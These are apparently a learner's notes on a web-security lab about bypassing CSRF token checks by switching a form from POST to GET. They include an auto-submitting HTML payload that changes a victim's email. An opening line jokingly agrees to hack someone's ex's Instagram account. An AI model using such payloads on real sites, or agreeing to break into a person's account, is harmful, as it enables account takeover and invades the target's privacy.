 # NOTES
Someone asked me to hack into their ex's Instagram. I told them sure thing I could use an X-Site-Request-Forgery. 

## LEARNINGS
- Forms : Can send out requests from any protocol. 
- CSRF Token Bypass : To bypass the validation, try switching protocols. Only works if the action works with the chosen protocol. 
  *e.g. change-email action worked with GET requests, the payload worked* 

### EXPLOIT 
- This challenge had CSRF token validation on the email change action 
- Changed the Protocol from "POST" to "GET" to bypass the validation

		404 : Not Found 
		 <html>
		  <body>
		    <form action="https://ac411f8c1e773784c006359900f000bb.web-security-academy.net/my-account/change-email" method="GET">
		      <input type="hidden" name="email" value="pwned@evil-user.net" />
		      <input type="hidden" name="csrf" value="3JX7u51QbzD66oQYbMpw9hLCxGM4q7Ee" />
		    </form>
		    <script>
		      document.forms[0].submit();
		    </script>
		  </body>
		</html> 

![[Pasted image 20220126054012.png]]
